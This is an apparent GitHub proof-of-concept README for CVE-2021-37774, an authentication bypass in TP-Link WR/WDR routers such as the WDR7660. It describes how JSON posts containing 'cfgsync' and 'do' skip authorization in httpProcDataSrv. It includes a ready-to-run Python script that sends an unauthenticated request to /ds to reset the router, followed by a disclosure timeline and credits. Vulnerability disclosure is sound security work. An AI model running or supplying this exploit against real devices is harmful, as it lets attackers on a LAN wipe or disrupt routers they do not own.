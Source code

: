 # TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7660. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.

![](1.png)

![image-20210728095522755](2.png)

### Poc
Refer to this video: [wdr7660.mp4](./wdr7660.mp4)
poc&exp

***It's for WDR7660***
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### Timeline
2021.7.27 report to CVE and TP-Link
2021.8.4 TP-LINK's security department has been in touch with me.
2023.1.11 get CVE ID：CVE- 2021-37774
### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.

